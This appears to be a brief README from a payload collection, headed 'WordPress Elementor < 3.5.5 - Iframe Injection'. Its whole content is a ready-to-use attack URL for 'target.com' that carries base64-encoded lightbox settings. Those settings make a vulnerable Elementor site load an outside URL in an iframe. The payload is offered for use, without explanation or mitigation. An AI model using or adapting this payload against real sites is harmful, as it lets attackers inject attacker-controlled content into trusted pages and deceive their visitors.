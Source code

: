 # Iframe-Injection

<h1> WordPress Elementor < 3.5.5 - Iframe Injection </h1>
<h2>payload</h2>
  
```bash
https://target.com/#elementor-action:action=lightbox&settings=eyJ0eXBlIjoidmlkZW8iLCJ1cmwiOiJodHRwczovL2Rvd25sb2FkbW9yZXJhbS5jb20vIn0K
```
